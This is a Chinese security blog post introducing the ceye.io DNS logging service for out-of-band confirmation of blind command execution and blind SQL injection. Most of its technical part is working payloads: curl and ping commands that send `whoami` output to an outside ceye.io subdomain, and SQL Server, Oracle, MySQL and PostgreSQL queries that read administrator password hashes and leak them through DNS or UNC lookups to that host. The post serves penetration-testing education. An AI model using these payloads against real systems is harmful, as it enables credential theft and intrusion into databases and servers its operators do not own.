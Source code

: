 ```yaml
---
title: 一个有趣的东西-cloudeye
date: 2016-06-26 21:36:38
tags:
- dns
- cloudeye
categories:
- Blogs
---
```


最近遇到了一个挺好玩的东西，应该是前段时间突然火起来cloudeye，在wooyun上有卖激活码，不过找到了一个免费版的还不错...

<!--more-->

# 背景 #

在实际渗透环境时，我们经常会遇到疑似命令执行或者没有回显的注入，第一种我们可能会用各种各样的请求来判断是否存在命令执行，而第二种我们一般会用时间盲注。

现在我们有个一个更好的解决办法，dns带外查询...

# 原理 #

rr菊苣曾经写过一篇[解释原理的文章](http://ricterz.me/posts/笔记:%20Data%20Retrieval%20over%20DNS%20in%20SQL%20Injection%20Attacks)

简单的来说，cloudeye自己保留dns的日志信息，并对应每个会员一个二级域名，这样我们可以通过
```
ping test.xxxxx.dnslog.info

```
这样的多级域名方式，把我们需要返回的信息链接到url中，然后分析日志，test部分就是我们得到的信息

# 免费的平台 #

先推荐一个免费的平台吧，并不是每一个人都会花wb买cloudeye的
[http://ceye.io](http://ceye.io)

# 范例 #

原理怎么说都比较空洞，我们还是用实际例子来说吧

## 命令执行 ##

在我们找到命令执行漏洞的时候，我们可以执行这样的命令判断
```
i. *nix:

curl http://ip.port.b182oj.ceye.io/`whoami`
ping `whoami`.ip.port.b182oj.ceye.io
ii. windows

ping %USERNAME%.b182oj.ceye.io
```

比如
![](/img/cloudeye/1.png)

这样我们就能看到
![](/img/cloudeye/2.png)

## windows下root跑的sql服务 ##
在注入情形下，我们会遇到被迫时间盲注的情况，往往我们需要花大量的时间去注入，但是如果是在windows服务器下，我们可以用这种方式来注入。

对于 MySQL 熟悉的人可能会知道 MySQL 有一个 load_file 的 function，可以用来读取文件。实际上，这个函数在 Windows 下也可以用来访问类似于 \\2.2.2.2\ipc$ 这样的地址。

所以只有windows才存在这个问题

这里有篇文章
[http://docs.hackinglab.cn/HawkEye-Log-Dns-Sqli.html](http://docs.hackinglab.cn/HawkEye-Log-Dns-Sqli.html)

```
i. SQL Server

DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1
master.dbo.fn_varbintohexstr(password_hash)
FROM sys.sql_logins WHERE name='sa')
+'.ip.port.b182oj.ceye.io';
 EXEC('master..xp_dirtree
"\\'+@host+'\foobar$"');

ii. Oracle

SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;

iii. MySQL

SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));

iv. PostgreSQL

DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

当然也有例子
我本地有一个站存在盲注
![](/img/cloudeye/3.png)

传入
![](/img/cloudeye/4.png)

我们看到收到了请求

![](/img/cloudeye/5.png)

查询user()的时候可能会发生错误，因为在url中@有特殊意义,（╯－＿－）╯╧╧，需要编码一下


感觉还是挺有趣的...
